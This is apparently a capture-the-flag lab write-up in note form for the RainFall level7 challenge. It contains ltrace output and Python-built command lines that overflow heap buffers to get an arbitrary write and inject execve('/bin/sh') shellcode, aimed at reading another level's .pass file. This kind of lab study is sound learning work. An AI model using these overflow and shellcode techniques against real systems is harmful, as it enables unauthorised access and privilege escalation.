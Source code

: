Segfault with less than 2 args.
interesting  ltrace output:
```
level7@RainFall:~$ ltrace ./level7 a b       
__libc_start_main(0x8048521, 3, 0xbffffd04, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                             = 0x0804a008
malloc(8)                                                                             = 0x0804a018
malloc(8)                                                                             = 0x0804a028
malloc(8)                                                                             = 0x0804a038
strcpy(0x0804a018, "a")                                                               = 0x0804a018
strcpy(0x0804a038, "b")                                                               = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                 = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

fgets fail, might be because it tries to write to a bad buffer (at 0x8049960).
We should try to have it write to 0x0804a008 instead
or more likely change the call to fgets to a call to m()...

wip: The address passed as first param is where argv[2] will be strcopied. So I can write what i want where i want...
```
 ltrace ./level7 $(python -c 'print "A"*20+"\x60\x99\x04\x08"') a


ltrace ./level7 $(python -c 'print "A"*20+"\x1c\xfc\xff\xbf"') $(python -c 'print "\x18\xa0\x04\x08"')

./level7 $(python -c 'print "\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"AAA"+"\x1c\xfc\xff\xbf"') $(python -c 'print "\x18\xa0\x04\x08"')
```

